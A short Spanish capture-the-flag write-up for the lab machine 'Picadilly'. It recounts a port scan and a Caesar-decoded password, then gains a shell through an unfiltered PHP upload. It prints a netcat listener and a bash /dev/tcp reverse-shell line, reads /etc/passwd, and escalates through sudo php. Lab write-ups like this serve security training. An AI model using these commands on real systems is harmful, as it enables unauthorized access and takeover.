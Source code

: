 # Picadilly
## Reconocimiento
Comienzo con un escaneo de puertos vía `nmap`.
```
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
```

![[Ciberseguridad/Hacking/Writeups/253_septiembre/22-picadilly/imgs/1.png]]

Esto revela dos servidores HTTP, uno en el puerto 80 y el otro en el 443, el segundo con un certificado SSL.

Al visitar el del puerto 80 me encuentro con el siguiente texto:
```
/// The users mateo password is ////


----------- hdvbfuadcb ------------

"To solve this riddle, think of an ancient Roman emperor and his simple method of shifting letters."

////////////////////////////////////
```
Asumo que se refiere al cifrado César, así que pruebo a decodificarlo y encuentro lo que podría ser la contraseña. Como aparentemente no hay nada más, voy a visitar el del puerto 443.

Parece una especie de foro, la página tiene un formulario de subida de archivos, estos luego se muestran en forma de entrada en el blog.

![[Ciberseguridad/Hacking/Writeups/253_septiembre/22-picadilly/imgs/2.png]]
## Explotación
Subo un archivo llamado `shell.php` y no hay ningún control que me lo impide, este se muestra como entrada del blog con normalidad. Probando el típico directorio donde se pueden ver los archivos visito `/uploads` y ahí está la shell, me pongo en escucha con `nc -nvlp 443` y al clicar en el archivo desde el navegador y volver a la terminal veo que ya estoy dentro como root.

![[Ciberseguridad/Hacking/Writeups/253_septiembre/22-picadilly/imgs/3.png]]
## Post-explotación
En primer lugar, sanitizo la shell

![[Ciberseguridad/Hacking/Writeups/253_septiembre/22-picadilly/imgs/4.png]]

Con `cat /etc/passwd`, verifico que el usuario mateo existe, cuando veo que si utilizo la contraseña previamente descifrada para pivotar con éxito

![[Ciberseguridad/Hacking/Writeups/253_septiembre/22-picadilly/imgs/5.png]]

Autenticado como mateo, me paso la shell a otra consola para tenerla más limpia.
```sh
bash -i >& /dev/tcp/192.168.1.157/444 0>&1
```

Ya con una terminal en condiciones, miro si hay algún vector de escalada sencillo con `sudo -l`, veo que el binario `php` puede ejecutarse con permisos superiores, una búsqueda rápida en GTFObins y laboratorio resuelto

![[Ciberseguridad/Hacking/Writeups/253_septiembre/22-picadilly/imgs/6.png]]
